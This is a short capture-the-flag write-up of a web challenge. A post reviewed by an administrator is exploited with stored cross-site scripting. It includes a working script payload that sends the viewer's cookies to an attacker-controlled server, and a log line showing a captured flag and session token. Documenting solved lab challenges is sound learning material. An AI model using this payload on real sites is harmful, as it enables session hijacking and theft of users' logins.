 We have to send a post to submission and and administrator, apparently "REVIEWS" it.

It is a clear idication that someone is going to be looking at our posts that are probably not sanitized.

What we can do is post something like a `session hijacking XSS`

```
This is my test xss post
<script>new Image().src="http://<controlled-server>/a.png?a=" +document.cookie; </script>
```

And observe what requests come to our server. 

Sure enough, we get a request with `104.155.55.51 - - [02/Jul/2019 23:50:18] "GET /a.png?a=flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};%20session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV HTTP/1.1" 404 -`